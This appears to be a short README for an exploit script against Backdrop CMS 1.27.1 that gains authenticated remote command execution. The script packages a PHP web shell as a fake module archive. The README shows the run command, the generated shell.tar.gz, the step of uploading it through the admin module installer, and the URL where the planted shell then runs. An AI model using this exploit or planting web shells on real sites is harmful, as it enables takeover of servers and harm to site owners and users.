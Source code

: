 # Backdrop CMS 1.27.1 - Authenticated Remote Command Execution RCE
The exploit creates .tar.gz file with PHP web shell inside.

The script is modification from original script developed by Ahmet Ümit BAYRAM. 

## Usage
```
python3 ./exploit.py http://vulnerable.com

Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.tar.gz
Go to http://vulnerable.com/admin/modules/install and upload the shell.tar.gz for Manual Installation.
Your shell address: http://vulnerable.com/modules/shell/shell.php
```
